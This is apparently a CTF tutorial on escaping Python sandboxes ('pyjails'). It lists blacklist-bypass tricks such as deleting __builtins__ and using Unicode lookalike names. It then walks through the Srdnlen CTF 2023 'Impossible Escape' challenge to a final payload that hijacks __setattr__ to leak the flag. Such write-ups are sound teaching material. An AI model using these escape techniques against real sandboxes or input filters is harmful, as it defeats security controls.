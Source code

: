 # How easily solve a pyjail

Generally, by following this list you will be able to solve any pyjail and (maybe) quickly:
 - Check what you have available (`builtins`, `keywords`, global/local variables)
 - Check if builtins can be overridden (also check if `__builtins__` can be overridden):
     - If this is possible, this can be useful: https://rszalski.github.io/magicmethods/
 - If the pyjail is built like this:
     ```py
     while True:
         code = input()
         assert "." not in code
         exec(code, {"__builtins__": {}})
     ```
     You can delete the current `__builtins__` in order to        restore them simply using `del __builtins__` (thanks @Loldemort). If `del` is not available, you can still delete `__builtins__` in [different ways](https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/README.md#deleting-a-variable)
 - Check how a blacklist is applied to the input:
     - If there is a content blacklist (eg. `assert 'exec' not in code`), you can try to bypass it using [Python Unicode Compatibility](https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/README.md#deleting-a-variable):
     ```py
     exec == 𝘦𝘹𝘦𝘤 == 𝙚𝓍𝓮𝘤
     ```

I'm using `The Impossible Escape` from `Srdnlen ctf 2023` as an example.

## Overview

Here's the source code of the challenge:
```py
class TIE:
    def __init__(self) -> None:
        print(banner)
        self.flag = getenv("FLAG", "srdnlen{REDACTED}")
        self.code = self.code_sanitizer(input("Submit your BEST (and perhaps only) Escape Plan: "))
        self.delete_flag()
        exec(self.code)

    def code_sanitizer(self, dirty_code: str) -> str:
        if not dirty_code.isascii():
            print("Alien material detected... Exiting.")
            exit()

        banned_letters = ["m", "o", "w", "q", "b", "y", "u", "h", "c", "v", "z", "x", "k", "g"]
        banned_symbols = ["}", "{", "[", "]", ":", "&", "`", "'", "-", "+", "\\", ".", "="]
        banned_words = ["flag", ]

        if any(map(lambda c: c in dirty_code, banned_letters + banned_symbols + banned_words)):
            print("Are you trying to cheat me!? Emergency exit in progress.")
            exit()

        cool_code = dirty_code.replace("\\t", "\t").replace("\\n", "\n")
        return cool_code

    def delete_flag(self) -> None:
        self.flag = "You cant grab me ;)"
        print("Too slow... what you were looking for has just been destroyed.")

```

The first thing you should do when solving a pyjail is getting a list of what you can use (you should run this at the end of the pyjail): 
```py
import builtins
import keyword
import string

banned_letters = ["m", "o", "w", "q", "b", "y", "u", "h", "c", "v", "z", "x", "k", "g"]
banned_symbols = ["}", "{", "[", "]", ":", "&", "`", "'", "-", "+", "\\", ".", "="]
banned_words = ["flag", ]


print("\n========= Allowed globals =========")
for w in list(globals()):
    if not any(map(lambda c: c in w, banned_letters + banned_symbols + banned_words)):
        print(w)

print("\n========= Allowed builtins =========")
for w in list(builtins.__dict__):
    if not any(map(lambda c: c in w, banned_letters + banned_symbols + banned_words)):
        print(w)


print("\n========= Allowed keywords =========")
for w in list(keyword.kwlist):
    if not any(map(lambda c: c in w, banned_letters + banned_symbols + banned_words)):
        print(w)

print("\n========= Allowed special chars =========")
for w in string.punctuation:
    if not any(map(lambda c: c in w, banned_letters + banned_symbols + banned_words)):
        print(w)

```

Output:


```py
========= Allowed globals =========
__file__
TIE

========= Allowed builtins =========
all
delattr
dir
id
iter
aiter
len
print
repr
setattr
Ellipsis
False
filter
int
list
set
str

========= Allowed keywords =========
False
and
as
assert
def
del
elif
else
if
in
is
pass
raise

========= Allowed special chars =========
!
"
#
$
%
(
)
*
,
/
;
<
>
?
@
^
_
|
~
```

So we're able to call functions, but we're not able to access attributes (we can't use `.`).

We se some interesting output:

```py
setattr
print
TIE
```

Using setattr, we can overwrite functions in order to print the flag... somehow...

Let's analyze this line:

```py
self.flag = getenv("FLAG", "srdnlen{REDACTED}")
```

Internally, Python calls the magic function `__setattr__` with the following parameters:
 - Attribute name (in our case, the attribute name is `'flag'`)
 - Attribute value (in our case, the value is our flag)

So if we overwrite the magic function `__setattr__` with `print`, we can print our flag.

We need to overwrite the function of `<class '__main__.TIE'>`, not its instance.
If we overwrite `__setattr__` of an instance of `TIE`, then our overwrite will not persist.

Final payload:

```py
setattr(TIE,'__setattr__',print);TIE() # Here we create another instance of TIE
```


Another example: https://pwnzer0tt1.it/posts/ez-class/
